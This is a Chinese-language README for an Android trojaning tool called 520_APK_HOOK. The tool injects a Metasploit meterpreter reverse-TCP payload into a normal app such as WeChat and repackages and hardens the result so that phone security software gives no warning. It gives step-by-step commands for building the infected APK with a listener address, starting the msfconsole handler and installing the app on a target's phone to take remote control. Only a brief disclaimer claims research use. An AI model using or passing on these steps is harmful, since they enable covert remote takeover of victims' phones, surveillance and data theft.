

# 520_APK_HOOK


## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。

* 被注入后的app可以正常运行，msf正常在线，继承app的权限。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 部分被加固过的app无法进行注入，已测试网易系列💔，360系列💔，腾讯系列❤️，其他的请自行测试。

## 项目依赖

* 本项目参考以下项目

* [apk-steady](https://gitee.com/openjk/apk-steady)

* [apk-jiagu](https://gitee.com/openjk/apk-jiagu)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)

## 使用


1. 使安装python3, Java环境.

2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ python main.py --lhost 192.168.0.106 --lport 1433 -p android/meterpreter/reverse_tcp -n 微信_7.0.22.apk

```


3. 使用msfconsole加载handler.rc进行服务端监听

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ msfconsole -r WorkDir/handler.rc

```



4. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制



5. 成功后, 可以在msf中进行远程控制

